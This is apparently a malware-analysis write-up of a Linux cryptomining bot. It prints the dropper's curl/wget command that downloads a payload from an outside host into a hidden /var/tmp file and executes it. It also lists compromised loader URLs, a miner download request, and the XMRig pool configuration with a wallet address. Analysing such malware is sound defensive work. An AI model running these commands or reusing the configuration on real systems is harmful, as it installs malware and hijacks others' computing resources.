

Initial file dropped was a Bash file containing following commands:

```bash
rm -f /var/tmp/.sys.log<br>
curl http://www.bizqsoft.com/imgtemplate/11.png -o /var/tmp/.sys.log || wget http://www.bizqsoft.com/imgtemplate/11.png -O /var/tmp/.sys.log<br>
chmod 0777 /var/tmp/.sys.log<br>
/var/tmp/.sys.log<br>
```

File `11.png` was found packed using UPX packer. After the decompression, a list of websites has been found which is potentially has been compromised and used to host the loader for the bot.

```json
[
    "http://www.ltj4949.com/weixin/loader.gif",
    "http://128.1.49.78/phpmyadmin/loader.gif",
    "http://111.231.230.124/data/loader.gif",
    "http://124.42.117.172/yjcm/loader.gif",
    "http://180.76.114.216/log/loader.gif",
    "http://103.17.95.45/log/loader.gif",
    "http://car.earthstudio.cn/static/img/loader.gif",
    "http://111.231.239.187/loader/loader.gif",
    "http://120.27.33.177:80/phpMyAdmin/locale/loader.gif",
    "http://120.55.53.187:80/website/e/data/loader.gif",
    "http://47.100.24.187:80/Mobile/data/loader.gif",
    "http://117.48.211.158:80/phpMyAdmin/locale/loader.gif",
    "http://47.97.217.130:80/heart_health/vendor/loader.gif",
    "http://132.148.151.76:80/phpMyAdmin/locale/loader.gif",
    "http://39.109.113.71/phpmyadmin/setup/loader.gif"
]
```

Further analysis shows that a miner is being fetched from any live domain from the list.

```bash
GET /posp_test/uploads/x86.png HTTP/1.1
Host: 118.25.102.126
Accept: */*
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US; rv:1.8.1.7) Gecko/20070914 Firefox/2.0.0.7
```



XMRig miner credentials

```json
{<br>
    "id": 1,<br>
    "jsonrpc": "2.0",<br>
    "method": "login",<br>
    "params": {<br>
        "agent": "XMRig/2.6.4 (Linux i686) libuv/1.19.3-dev gcc/7.2.0",<br>
        "algo": [<br>
            "cn/1",<br>
            "cn/0",<br>
            "cn/xtl",<br>
            "cn/msr",<br>
            "cn/xao",<br>
            "cn/rto",<br>
            "cn"<br>
        ],<br>
        "login": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
        "pass": "x"<br>
    }<br>
}<br>
```

Below is the list of mining server being use by the miner:

```json
{<br>
    "algo": "cryptonight",<br>
    "api": {<br>
        "port": 0,<br>
        "access-token": null,<br>
        "worker-id": null,<br>
        "ipv6": false,<br>
        "restricted": true<br>
    },<br>
    "av": 0,<br>
    "background": false,<br>
    "colors": true,<br>
    "cpu-affinity": null,<br>
    "cpu-priority": null,<br>
    "donate-level": 1,<br>
    "huge-pages": true,<br>
    "hw-aes": null,<br>
    "log-file": null,<br>
    "max-cpu-usage": 75,<br>
    "pools": [<br>
        {<br>
            "url": "sg.minexmr.com:4444",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "sg.minexmr.com:80",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "sg.minexmr.com:443",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "pool.minexmr.com:4444",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "pool.minexmr.com:80",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "pool.minexmr.com:443",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "xmr-usa.dwarfpool.com:8005 ",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "xmr-usa.dwarfpool.com:8080",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "pool.monero.hashvault.pro:443",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        },<br>
        {<br>
            "url": "pool.monero.hashvault.pro:443",<br>
            "user": "4ACoKdxrH8QeqdY16p9djYF1C4CbX7FB34ECdJxw8CmLTS8DurirbQehgGUdQkLz1gP93ZH57iN6444NkCNW9w9i2UZkYqY",<br>
            "pass": "x",<br>
            "rig-id": null,<br>
            "nicehash": false,<br>
            "keepalive": false,<br>
            "variant": 1<br>
        }<br>
    ],<br>
    "print-time": 600,<br>
    "retries": 3,<br>
    "retry-pause": 3,<br>
    "safe": false,<br>
    "threads": null,<br>
    "user-agent": null,<br>
    "watch": false<br>
}<br>
```

